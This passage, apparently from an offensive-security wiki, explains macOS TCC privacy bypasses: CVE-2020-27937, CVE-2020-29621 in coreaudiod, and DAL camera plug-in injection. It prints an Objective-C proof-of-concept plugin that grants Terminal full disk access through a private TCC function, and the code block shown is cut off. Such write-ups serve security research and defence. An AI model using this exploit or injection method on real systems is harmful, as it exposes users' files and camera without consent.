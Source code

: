 In order to weaponize this CVE, the **`NFSHomeDirectory`** is **changed** (abusing the previous entitlement) in order to be able to **take over the users TCC databas**e to bypass TCC.

For more info check the [**original report**](https://wojciechregula.blog/post/change-home-directory-and-bypass-tcc-aka-cve-2020-27937/).

### CVE-2020-29621 - Coreaudiod

The binary **`/usr/sbin/coreaudiod`** had the entitlements `com.apple.security.cs.disable-library-validation` and `com.apple.private.tcc.manager`. The first **allowing code injection** and second one giving it access to **manage TCC**.

This binary allowed to load **third party plug-ins** from the folder `/Library/Audio/Plug-Ins/HAL`. Therefore, it was possible to **load a plugin and abuse the TCC permissions** with this PoC:

```objectivec
#import <Foundation/Foundation.h>
#import <Security/Security.h>

extern void TCCAccessSetForBundleIdAndCodeRequirement(CFStringRef TCCAccessCheckType, CFStringRef bundleID, CFDataRef requirement, CFBooleanRef giveAccess);

void add_tcc_entry() {
    CFStringRef TCCAccessCheckType = CFSTR("kTCCServiceSystemPolicyAllFiles");

    CFStringRef bundleID = CFSTR("com.apple.Terminal");
    CFStringRef pureReq = CFSTR("identifier \"com.apple.Terminal\" and anchor apple");
    SecRequirementRef requirement = NULL;
    SecRequirementCreateWithString(pureReq, kSecCSDefaultFlags, &requirement);
    CFDataRef requirementData = NULL;
    SecRequirementCopyData(requirement, kSecCSDefaultFlags, &requirementData);

    TCCAccessSetForBundleIdAndCodeRequirement(TCCAccessCheckType, bundleID, requirementData, kCFBooleanTrue);
}

__attribute__((constructor)) static void constructor(int argc, const char **argv) {

    add_tcc_entry();

    NSLog(@"[+] Exploitation finished...");
    exit(0);
```

For more info check the [**original report**](https://wojciechregula.blog/post/play-the-music-and-bypass-tcc-aka-cve-2020-29621/).

### Device Abstraction Layer (DAL) Plug-Ins

System applications that open camera stream via Core Media I/O (apps with **`kTCCServiceCamera`**) load **in the process these plugins** located in `/Library/CoreMediaIO/Plug-Ins/DAL` (not SIP restricted).

Just storing in there a library with the common **constructor** will work to **inject code**.

